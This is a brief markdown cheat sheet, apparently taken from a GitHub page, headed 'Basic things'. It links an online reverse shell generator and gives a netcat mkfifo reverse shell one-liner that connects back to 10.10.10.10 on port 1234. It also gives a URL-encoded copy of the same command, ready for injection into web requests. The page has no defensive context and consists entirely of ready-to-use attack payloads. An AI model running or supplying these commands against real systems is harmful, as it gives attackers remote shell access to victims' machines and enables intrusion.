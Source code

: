 # Basic things
## online reverse shell editor
* https://www.revshells.com/
## netcat reverse shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
* rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.10.10%201234%20%3E%2Ftmp%2Ff
